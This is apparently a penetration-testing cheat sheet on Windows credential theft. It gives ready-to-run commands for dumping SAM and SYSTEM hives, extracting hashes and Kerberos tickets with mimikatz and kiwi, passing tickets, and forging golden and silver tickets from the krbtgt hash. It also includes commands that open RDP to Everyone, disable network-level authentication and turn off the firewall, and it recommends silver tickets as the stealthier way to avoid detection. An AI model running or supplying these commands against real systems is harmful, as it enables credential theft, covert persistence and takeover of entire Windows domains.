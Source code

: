# mimikatz/hashdump
Registry
--------

`REG QUERY "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /s` to view autologon stored passwords

SAM and SYSTEM
--------------

`reg save HKLM\SAM C:\Users\Administrator\Desktop\SAM`

`reg save HKLM\SYSTEM C:\Users\Administrator\Desktop\SYSTEM`

`samdump2 SYSTEM SAM`

KIWI
----

`load kiwi`

`lsa_dump_sam`

`getsystem` if not running as SYSTEM

```text-plain
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections  /t REG_DWORD /d 0 /f
```

Mimikatz
--------

run mimikatz.exe(used for dumping password hashes)

to activate rdp from terminal, use:

```text-plain
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```

```text-plain
net localgroup "Remote Desktop Users" Everyone /add
```

```text-plain
netsh advfirewall set allprofiles state off #to disable firewall
```

```text-plain
lsadump::cache /user:user /pass:Password123! /kiwi
```

`privilege::debug`

`sekurlsa::tickets /export`  this will export all of the .kirbi tickets into the directory that you are currently in

`kerberos::ptt <ticket>`  try using an admin ticket for impersonation

`klist` to ensure we successfully impersonated the ticket by listing our cached tickets.

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket.

`lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

`Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

\- This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket;